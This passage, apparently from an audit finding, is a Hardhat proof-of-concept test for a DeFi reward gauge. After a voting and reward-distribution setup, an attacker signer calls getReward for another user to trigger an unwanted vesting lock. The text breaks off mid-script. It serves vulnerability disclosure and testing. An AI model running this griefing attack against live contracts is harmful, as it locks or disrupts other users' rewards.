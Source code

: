 ```typescript
    console.log("The Weth balance of user1: ", await reserve.balanceOf(user1.address));
    console.log("The Atoken balance of user1: ", await aToken.balanceOf(user1.address));

    console.log("Notify the reward amount to the poolVoter contract");
    
    expect(await poolVoter.totalWeight()).eq(0); 
    console.log("totalWeight: ", await poolVoter.totalWeight()); 
    await poolVoter.connect(ant).vote([reserve.target], [1e8]);
    expect(await poolVoter.totalWeight()).greaterThan(e18 * 19n);
    console.log("after vote totalWeight: ", await poolVoter.totalWeight()); 
    console.log("length of pools:", await poolVoter.length());
    console.log("zero balance of PoolVoter: ", await zero.balanceOf(poolVoter.target)); // Should be 0
    console.log("Step: the Deployer (the owner of Zero token) approve the PoolVoter to spend 100 ZERO token");
    await zero.connect(deployer).approve(poolVoter.target, e18 * 100n);
    await poolVoter.connect(deployer).notifyRewardAmount(e18 * 100n);

    console.log("After notifyRewardAmout zero balance of PoolVoter: ", await zero.balanceOf(poolVoter.target));

    splitterGauge = await hre.ethers.getContractAt("LendingPoolGauge", await poolVoter.gauges(reserve.target));
    console.log("The claimable reward of gauge: ", await poolVoter.claimable(splitterGauge.target));
    console.log("Call the updateFor gauge to update the claimable reward for the gauge");
    await poolVoter.connect(ant).updateFor(splitterGauge.target);

    console.log("Distribution of the reward to the gauge");
   
    console.log("Before distribute zero balance of aTokenGauge: ", await zero.balanceOf(aTokenGauge.target));
    console.log("Before distribute zero balance of varTokenGauge: ", await zero.balanceOf(varTokenGauge.target));
    await poolVoter.connect(ant)["distribute(address)"](splitterGauge.target);
    console.log("After distribute zero balance of aTokenGauge: ", await zero.balanceOf(aTokenGauge.target));
    console.log("After distribute zero balance of varTokenGauge: ", await zero.balanceOf(varTokenGauge.target));

    console.log("The reward of the user1: ", await aTokenGauge.earned(zero.target, user1.address));
    
    console.log("Address of user1 ", user1.address);

    let lastTokenId = await vest.lastTokenId();
    console.log("LastTokenId: ", lastTokenId);
    console.log("The address of the owner of the lastTokenId: ", await vest.ownerOf(lastTokenId));
    
    

    console.log("Execute the griefing attack");
    const [attacker] = await hre.ethers.getSigners();
    
    console.log("Call getReward to get the reward of the user1");
    await aTokenGauge.connect(attacker).getReward(user1.address, zero);

    
    lastTokenId = await vest.lastTokenId();
    console.log("LastTokenId: ", lastTokenId);
    console.log("The address of the owner of the lastTokenId: ", await vest.ownerOf(lastTokenId));
    
    console.log("Get tokenIdToLockDetails of the lastTokenId");
    let tokenIdToLockDetails = await vest.tokenIdToLockDetails(lastTokenId);
```